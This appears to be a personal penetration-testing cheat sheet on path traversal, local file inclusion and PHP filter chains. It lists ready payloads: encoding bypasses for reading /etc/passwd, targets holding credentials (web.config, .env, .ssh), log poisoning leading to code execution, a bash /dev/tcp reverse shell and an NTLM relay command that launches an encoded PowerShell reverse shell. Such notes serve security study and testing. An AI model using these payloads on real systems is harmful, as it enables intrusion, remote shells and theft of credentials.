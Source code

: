 ```yaml
---
layout: blank
pagetitle: Path Traversal Attacks
---
```


**Path Traversal with Other Returned Content Types**
- Sometimes the app will return something like `/etc/passwd` in `image/jpeg` format
  - Firefox does NOT like this and will not show the contents of the image, instead displaying an error
    - Viewing the network request has a similar result
  - Thus, must be viewed via something showing the raw response (like burp or curl)

**Bypassing traversal defenses**
- Try using absolute paths
- Try using `....//` if `../` is stripped
- Try encoding the data for forms (which often automatically strip the attempts):
  - `%2f` for `/` and `%2e` for `.` 
  - `%252f` for `%2f` and `%252e` for `%2e` (double encoded)
- Alternative encodings may also work
  - `..%c0%af` is `..`, `..%ef%bc%8f` is `.. ／ `
- Try using `%00` or `%0a` to bypass required endings
  - e.g. `/etc/passwd%00.png`

**Windows Directory Traversal**
- Test Windows traversal with `C:\Windows\System32\drivers\etc\hosts` (if win.ini not working)
- DT to system access on Windows:
	- Look in home directories for `.ssh`
	- IIS server: 
		- `C:\inetpub\logs\LogFiles\W3SVC1\` is logs
		- `C:\inetpub\wwwroot\web.config` - config w/ potential creds
- Also, if we can pass IPs, use for stealing NTLM hash
	- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`

**File Inclusion**
- Different from directory traversal - directory traversal refers to simply retrieving contents, whereas LFI means the contents of the file are executed
- LFI example attack path
	- Can access local files with ?page=
	- Apache's /var/log/apache2/access.log logs the HTTP User Agent of everyone connecting
	- Thus, we can connect to a site with php code in our User Agent, poisoning the log, and view the access log with the LFI, resulting in the code executing
	- Can turn into a reverse shell with `bash -i >& /dev/tcp/{IP}/4444 0>&1`
		- If executed with Bourne Shell, we can prepend `bash -c` to ensure shell uses bash
- PHP wrappers can be used to display PHP when it would have otherwise executed
	- php://filter/convert.base64-encode/resouce=admin.php
	- data:// wrapper can be used for code execution
		- `data://text/plain,<php echo system('ls'); ?>` in an LFI could cause RCE
		- b64 version: `data://text/plain;base64,`
- Remote File Inclusion - very similar, but rare - passing PHP file as an HTTP link
- Things to include will vary from app to app, so search it up
  - For example, in a NextJS app:
    - `{../}app/package.json`
    - `{../}app/.env`
    - `{../}app/.next/server/middleware-manifest.json`
    - We can also get compiled routes, such as next auth:
      - `{../}app/.next/server/pages/api/auth/%5B...nextauth%5D.js`

**PHP Filter Chains**
- Some wizard shit, good job [Synacktiv](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html) on figuring it out
- There's a tool to generate a php filter chain from synacktiv: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
  - `php_filter_chain_generator.py --chain '<?php system("{command}"); ?>  '` will generate a chain to use, which will output
- If our output must end with something, like `dashboard.php` or something, we can simply prepend the chain to `,dashboard.php`, and it will still function, which is really handy
